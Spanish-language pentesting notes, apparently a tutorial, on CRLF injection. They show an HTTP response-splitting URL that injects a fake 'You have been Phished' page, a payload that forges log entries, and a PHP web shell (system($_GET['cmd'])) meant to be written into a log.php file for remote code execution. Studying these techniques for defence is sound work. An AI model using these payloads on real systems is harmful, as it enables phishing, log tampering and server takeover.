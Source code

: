Página solicitada

```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

Respuesta HTTP

```bash
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

### Injeccion en logs de registro

una pagina permite enviar un correo electronico en el apartado de contacto, valida si en el input **mensaje** hay caracteres especiales que podrian representar un ataque, de ser asi lo registra en un archivo de logs (`/log.php`)

si enviamos un mensaje decente no hay alerta:

![[Pasted image 20230607230735.png]]

![[Pasted image 20230607230810.png]]

de enviar algun caracter raro sale el siguiente mensaje:

![[Pasted image 20230607230859.png]]

si verificamos los logs:

![[Pasted image 20230607230924.png]]

podemos probar de inyectar CRLF para ver si en los logs creaos un salto de linea:

```bash
#crearemos un registro falso
message=hola'%0D%0AMalicious+message+from+hacker+(127.0.0.1):+test
```

![[Pasted image 20230607231624.png]]

se refleja el salto de linea y nuestro contenido, eso quiere decir que interpreta el **CRLF**.

como se almacena en un archivo PHP (`log.php`), podemos colocar codigo php para lograr RCE:

```php
<?php system($_GET['cmd']); ?>

system($_GET['cmd']);
```

